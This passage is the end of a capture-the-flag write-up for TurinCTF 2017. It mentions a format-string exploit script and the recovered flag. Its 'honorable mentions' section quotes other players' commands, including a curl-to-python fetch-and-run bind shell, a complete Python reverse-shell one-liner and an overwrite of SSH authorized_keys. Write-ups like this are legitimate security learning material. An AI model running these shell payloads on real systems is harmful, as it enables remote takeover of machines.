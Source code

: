 *Note*: the leading one in the last difference is required since we read `0x85cb` chars from the start and `0x804` is less then that (we can't un-read chars :D). Anyway it will overflow so no problems.

We also wrote [this python script](https://github.com/jbzteam/CTF/blob/master/TurinCTF2017/fmt.py) that will automatically exploit the executable.

Finally	`python pwn.py | ./copyrighter` revealed **flag7**: `T_CTF{u_PhUk'D_mY_574ck,_D0_J00_Ph33L_h4Ppy?_K0Z_U_5h0ulD!}`


## Scoreboard

![Final Scoreboard](https://github.com/jbzteam/CTF/raw/master/TurinCTF2017/flags.jpg)

## Honorable mentions

	$ cat .bash_history 
	echo 'miachiave' > .ssh/authorized_keys      
 
replacing, not appending. This dropped other players keys

	$ ps aux
	www-data 32027  0.0  0.0   4508   700 ?        S    17:58   0:00 sh -c curl https://raw.githubusercontent.com/****/tmp/master/bind1111.png | python

bind shell on port 1111 publicly accessible

	$ who
	level2   pts/0        2017-11-21 12:48 (ip1)
	level2   pts/2        2017-11-21 11:55 (ip2)
	level2   pts/3        2017-11-21 11:19 (ip3)
	level2   pts/4        2017-11-21 12:15 (ip1)
	level2   pts/6        2017-11-21 13:29 (ip1)
	level2   pts/8        2017-11-21 12:31 (ip1)

when 1 session isn't enougth

	$ cat shell
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("url",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'

spawning a shell without `&` making php hangs and all the website unreachable

## Hope you enjoyed this CTF 